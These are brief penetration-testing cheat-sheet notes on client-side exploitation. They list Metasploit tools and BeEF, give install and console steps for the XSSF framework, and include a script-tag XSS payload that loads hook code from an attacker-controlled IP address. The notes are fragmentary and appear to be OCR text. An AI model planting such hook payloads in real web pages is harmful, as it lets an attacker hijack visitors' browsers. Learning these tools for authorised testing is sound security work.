 # Client-Side Exploitation

CLIENT-SIDE EXPLOITATION

  
 msfvenom  
 msf  


Cross-Site Scripting Framework

install xssf - https://code.google.com/archive/p/xssf/downloads  
 copy extracted zip to /usr/share/metasploit-framework/  
 in mfsconsole use 'load xssf' and then 'xssf\_urls'  
 &lt;script src="http://&lt;ip&gt;:8888/loop?interval=5"&gt;&lt;/script&gt;  


BeEf

